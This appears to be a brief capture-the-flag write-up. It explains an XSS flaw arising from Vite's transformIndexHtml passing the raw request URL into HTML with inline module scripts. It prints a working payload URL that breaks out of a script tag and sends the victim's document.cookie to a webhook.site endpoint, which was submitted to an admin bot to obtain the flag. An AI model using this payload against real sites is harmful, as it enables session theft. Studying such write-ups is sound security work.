 This XSS stems from Vite's `server.transformIndexHtml` function, which, when manually invoked, passes the original request URL unmodified. If the HTML being transformed contains inline module scripts (`<script type="module">...</script>`), we can inject arbitrary HTML by crafting a malicious URL query string. 

```
http://34.132.132.69:8001/posts/6581f78799d634eec4c7370e/?"></script><script>window.location.href=`https://webhook.site/7f71492e-bc08-4991-83c8-adb019525d48/?cookie=${document.cookie}`</script>
```

Submitting this to the Admin Bot, we get the flag.

```
flag=flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}
```